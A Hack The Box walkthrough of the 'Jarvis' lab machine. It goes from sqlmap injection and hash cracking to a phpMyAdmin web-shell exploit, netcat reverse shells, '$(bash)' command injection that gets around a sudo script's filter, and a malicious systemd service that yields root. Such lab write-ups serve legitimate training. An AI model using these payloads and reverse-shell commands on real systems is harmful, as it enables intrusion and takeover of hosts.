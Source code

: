 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Jarvis"
tags: ['linux','medium','sudo','setuid','sqli','phpmyadmin','python']
layout: PostSimple
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/1.png)

We are going to pwn Jarvis from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/194>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 4.2 (94%), Linux 3.12 (93%), Linux 3.8 - 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

It looks like a normal webpage. So better we try bruteforcing the directories.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/2.png)

Got some details on the bottom of the page.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/3.png)

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/03 19:14:12 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/03 19:15:59 Finished
===============================================================
```

``/phpmyadmin``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/4.png)
Tried with default credentials ``Username: root Password: [null]`` but failed so better we try to enumerate more.

In the webpage clicking on ``Rooms`` it redirects to ``rooms-suites.php`` and by clicking any of those rooms it redirects to ``/room.php`` with a parameter called cod that holds the room number.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/5.png)

So I started SQLMAP with the url. There is some kind of filter which Ban us for 90 seconds.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/6.png)

>sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/7.png)
And it give me some payload. It Looks like SQL Injection using UNION is there.

### What is SQL Injection using UNION?
>When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database.

> sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3 --password

Got ``DBadmin`` hash.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/9.png)

I cracked that using [CrackStation](https://crackstation.net/)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/10.png)

``/phpmyadmin``<br/>

``DBadmin:imissyou``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/11.png)

Found Phpmyadmin's version so search for any exploit available.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/12.png)

><https://www.exploit-db.com/exploits/44928>

According to the exploit we need to inject the payload in SQL Query.<br/>
```select '<?php system($_GET["cmd"]);?>'```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/13.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/14.png)

Now we need to get the Session ID of phpMyAdmin.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/15.png)

``http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_8271hfci8stuji9h69a2huedmt4dt75e&cmd=ls``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/16.png)

Its working lets try to get reverse shell!

## Shell as www-data

``nc -e /bin/sh 10.10.14.19 1234``

I got the shell as ``www-data``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/17.png)


I started with ``sudo -l`` and looks like we can run ``simpler.py`` as pepper without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/18.png)

Lets see how ``simpler.py`` works<br/>
```
python simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
```
While checking the python code, I found a Interesting thing:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It takes the input and ping the command we send and it also forbidden ``['&', ';', '-', '`', '||', '|']`` these symbols to prevent us to do some other commands.But they didn't filtered ``$``, we can use this by ``$(command)``. I did ``$(bash)`` and got the user ``pepper``.

```
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(bash)
127.0.0.1 $(bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper@jarvis:/var/www/Admin-Utilities$
pepper
```

## Privilege Escalation

Started my enumeration script and found there is a SUID binary.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/19.png)

I checked [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), According to that we need to create a service that executes a file of our choice when it enables.
I created a service called ``test.service`` in my machine and uploaded that to the box.

``test.service``
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.19 5555"
[Install]
WantedBy=multi-user.target
```

Uploaded the script to the box and gave executable permission. Now we need to link the service first and then enable the service which executes it.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/20.png)

Started my listener<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/21.png) <br/>
I'm Root

